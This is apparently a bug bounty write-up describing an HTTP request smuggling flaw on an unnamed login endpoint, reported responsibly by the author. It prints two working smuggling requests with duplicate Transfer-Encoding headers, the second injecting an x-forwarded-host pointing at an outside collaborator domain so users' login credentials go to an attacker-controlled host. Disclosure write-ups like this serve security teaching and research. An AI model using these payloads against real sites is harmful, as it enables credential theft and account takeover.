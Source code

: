 ```yaml
---
layout: post
title: Stealing Login Credentials using HTTP Request Smuggling
date: 2023-08-15 07:03 +0000
categories: [bugbounty, writeup]
tags: [bugbounty.Smuggling] 
---
```


I recently discovered a significant security vulnerability in a target. The vulnerability, HTTP request smuggling, allowed me to manipulate the application's behavior, potentially compromising user credentials. I responsibly reported this vulnerability to the application's development team, who took appropriate measures to address it.

## Description

The vulnerability I found in the target is an instance of HTTP request smuggling. It arises when an attacker can manipulate the application's interpretation of HTTP requests, leading to behaviors that differ from the intended ones. By exploiting this vulnerability, an attacker could gain unauthorized access to user credentials, potentially compromising their accounts.

### Confirmation of Vulnerability

To confirm the presence of the vulnerability, I crafted a malicious HTTP request using the following payload:

```

POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /robots.txt HTTP/1.1
X-Ignore: X
```

Instead of the expected response of "302," the application returned a "404" status code, indicating that the vulnerability was present.

![Screenshot](https://jaksan.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F22149b15-d733-4242-b5ad-6d1645d78a09%2FScreenshot_2023-05-16_at_12.07.05_PM(1).jpg?table=block&id=5f03f4bc-0539-4e4c-87aa-5ba0aa8d37d2&spaceId=13ac45fb-0b3e-4834-8b18-ec6f584d18fd&width=2000&userId=&cache=v2)

### Exploiting the Vulnerability

Further investigation using param-miner extension revealed that the application accepts the **x-forwarded-for** header, which allowed me to manipulate the "Host" value in the response. With this information, I crafted a second request to redirect the base URL of the login form to a controlled domain, as demonstrated by the following payload:

```

POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Content-Type: application/x-www-form-urlencoded
Content-Length: 421
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /ENDPOINT HTTP/1.1
x-forwarded-host: gbvun9lgwxse701bwnjfn68snjtah25r.oastify.com
X-Ignore: X
```

This manipulation changed the base URL of the login request form to a malicious domain, allowing an attacker to intercept user credentials.

![Screenshot 2 ](https://jaksan.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fe67ab3da-1b94-4a50-a083-2bf026eb2be6%2FScreenshot_2023-05-22_at_9.27.15_PM.png?table=block&id=2c1eb8d5-52a8-4f58-9619-e4114745142c&spaceId=13ac45fb-0b3e-4834-8b18-ec6f584d18fd&width=2000&userId=&cache=v2)

### Potential Impact

The impact of this vulnerability is severe. When a legitimate user logs in to the affected application, their credentials are unknowingly sent to the malicious domain controlled by the attacker. This could lead to unauthorized access, account takeover, or further compromise of sensitive data.

### Reference

[PortSwigger](https://portswigger.net/web-security/request-smuggling)